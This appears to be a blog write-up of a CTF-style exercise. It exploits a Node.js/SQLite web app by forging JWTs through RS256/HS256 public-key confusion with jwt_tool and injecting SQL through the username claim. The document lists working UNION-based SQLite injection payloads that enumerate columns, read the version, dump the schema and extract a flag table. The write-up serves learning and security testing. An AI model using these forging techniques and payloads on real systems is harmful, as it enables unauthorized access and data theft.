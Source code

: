 [back](/)

### SQL injection in Node.js webapp and JSON Web Tokens (JWT)

What JSON Web Token (JWT) is? It is an open standard [RFC 7519](https://tools.ietf.org/html/rfc7519) for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: [jwt.io](https://jwt.io/introduction/). There are a number of interesting techniques for exploiting vulnerabilities in JWT, but in this example I would like to show the "RS/HS256 public key mismatch vulnerability" and SQL injection exploitation through this vulnerability.

In this example there is a server with a Node.js runtime and a SQLite database, here is the example of authorization and receipt of JWT:

![Image](/img/RS_HS256/auth_jwt.png)

JWT consists of three parts: Header, Payload, Verify Signature, encoded in Base64 format and separated by a dot:

![Image](/img/RS_HS256/jwt_decode.png)

In the process of examining the code of the Node.js web application, a fragment of an SQL query was found with the direct inclusion of the value of the parameter, which is controlled by the user: **${username}:**

![Image](/img/RS_HS256/auth_code.png)

![Image](/img/RS_HS256/vuln_code.png)


To investigate possible SQL injection and JWS token signing via "RS / HS256 public key mismatch" I used [jwt_tool](https://github.com/ticarpi/jwt_tool) tool. To generate payload, it need to change the value of the "username" parameter and then sign the JWS using public.key:

![Image](/img/RS_HS256/jwtool_1.png)

![Image](/img/RS_HS256/jwtool_pub_key_sign.png)

The SQL injection research process was accompanied by the use of the following payloads:

The answer 200 means there is an SQL injection:
```
"username" : "jaki' and 1=1 -- -"
```

![Image](/img/RS_HS256/jwtool_true_sqli.png)

![Image](/img/RS_HS256/valid_jwt_200.png)

Number of columns in error for UNION SELECT structure:
```
"username" : "' order by 5; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_2.png)

![Image](/img/RS_HS256/sqli_union_columns.png)

SQLite version:
```
"username" : "' union select 1,sqlite_version(),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_3.png)

![Image](/img/RS_HS256/sqli_ver.png)

List of all database objects and the SQL request used to create each object:
```
"username" : "' union select  1,(SELECT group_concat(sql) FROM sqlite_master),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_4.png)

![Image](/img/RS_HS256/sqli_master.png)


Retrieving sensitive information from the target table:
```
"username" : "' union select  1,(SELECT group_concat(top_secret_flaag) FROM flag_storage),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_5.png)

![Image](/img/RS_HS256/sqli_flag.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)
